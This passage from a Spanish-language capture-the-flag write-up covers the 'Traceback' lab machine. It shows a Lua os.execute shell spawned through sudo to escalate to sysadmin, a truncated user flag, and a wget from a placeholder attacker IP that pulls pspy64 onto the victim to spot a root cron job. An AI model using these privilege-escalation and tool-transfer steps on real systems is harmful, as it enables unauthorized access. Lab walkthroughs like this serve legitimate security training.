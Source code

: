 Si nos creamos un pequeño script, para que nos abra una shell como sysadmin. Ya que al ejecutar el comando con sudo, nos abrira la shell como sysadmin.

```
webadmin@traceback:~$ echo 'os.execute("/bin/bash")' > /home/webadmin/test.lua
webadmin@traceback:~$ cat /home/webadmin/test.lua
os.execute("/bin/bash")
```

Al ejecutar el script con sudo, nos abre un shell como usuario sysadmin, y ya podemos obtener la flag de user.

```
webadmin@traceback:~$ sudo -u sysadmin /home/sysadmin/luvit /home/webadmin/test.lua
sysadmin@traceback:~$ id
uid=1001(sysadmin) gid=1001(sysadmin) groups=1001(sysadmin)

sysadmin@traceback:~$ cat /home/sysadmin/user.txt | cut -c1-20
9dca64fa7d95b9647b71

```

## Root flag

Cuando nos conectamos por **SSH** nos resulta curioso el mensaje que aparece. Buscaremos de forma recursiva el mensaje *"Welcome to Xh4H land"*.

```
sysadmin@traceback:~$ cd /
sysadmin@traceback:/$ grep -r -i "Welcome to Xh4H land" 2>/dev/null
etc/update-motd.d/00-header:echo "\nWelcome to Xh4H land \n"
var/backups/.update-motd.d/00-header:echo "\nWelcome to Xh4H land \n"

```

Lanzamos la utilidad *pspy64* para enumerar los procesos que estan correindo.
Primero nos decargamos el [pspy64](https://github.com/DominicBreuker/pspy/releases/download/v1.2.0/pspy64) y lo subimos a la maquina.

```
# Maquina atacante
$ python -m SimpleHTTPServer

#Maquina victima
sysadmin@traceback:/home/sysadmin$ wget http://TU_IP:8000/pspy64

```
Y lo ejectuamos.

```
$ sysadmin@traceback:/home/sysadmin$ ./pspy64 
2020/08/19 13:38:01 CMD: UID=0    PID=3895   | /bin/sh -c sleep 30 ; /bin/cp /var/backups/.update-motd.d/* /etc/update-motd.d/ 

```
